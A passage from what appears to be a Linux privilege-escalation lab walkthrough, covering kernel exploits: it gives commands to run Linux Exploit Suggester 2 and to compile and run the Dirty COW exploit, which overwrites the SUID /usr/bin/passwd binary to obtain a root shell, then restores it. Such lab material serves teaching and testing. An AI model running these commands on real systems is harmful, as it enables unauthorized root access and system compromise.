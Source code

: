 `/tmp/shell.elf`

Remember to exit out of the root shell before continuing!

### Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

`perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w

```


Once the exploit completes, run /usr/bin/passwd to gain a root shell:

`/usr/bin/passwd`

Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!

```
mv /tmp/bak /usr/bin/passwd
exit

```
